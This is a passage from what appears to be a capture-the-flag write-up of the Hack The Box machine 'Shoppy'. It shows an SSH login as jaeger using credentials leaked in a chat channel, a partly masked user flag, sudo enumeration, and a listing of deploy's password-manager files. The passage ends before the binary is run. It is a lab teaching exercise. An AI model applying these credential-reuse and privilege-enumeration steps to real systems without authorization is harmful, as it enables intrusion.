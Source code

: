The “Deploy Machine” private channel has another conversation between Josh and
Jaeger. Jaeger asks for a machine set up with a username and password:

![image-20230111205719085](https://0xdfimages.gitlab.io/img/image-20230111205719085.png)

### SSH

With those creds, I can SSH into the box as jaeger:

    
    
    oxdf@hacky$ sshpass -p 'Sh0ppyBest@pp!' ssh jaeger@shoppy.htb
    Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    jaeger@shoppy:~$
    

And read `user.txt`:

    
    
    jaeger@shoppy:~$ cat user.txt
    91e995e9************************
    

## Shell as deploy

### Enumeration

jaeger can run `/home/deploy/password-manager` as deploy:

    
    
    jaeger@shoppy:~$ sudo -l
    [sudo] password for jaeger: 
    Matching Defaults entries for jaeger on shoppy:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
    
    User jaeger may run the following commands on shoppy:
        (deploy) /home/deploy/password-manager
    

`/home/deploy` has the binary, as well as the source and a `creds.txt`:

    
    
    jaeger@shoppy:~$ ls -l ../deploy/
    total 28
    -rw------- 1 deploy deploy    56 Jul 22 13:15 creds.txt
    -rwxr--r-- 1 deploy deploy 18440 Jul 22 13:20 password-manager
    -rw------- 1 deploy deploy   739 Feb  1  2022 password-manager.cpp
    

As jaeger, I can only read the binary. With `sudo`, I can also run it as
deploy:
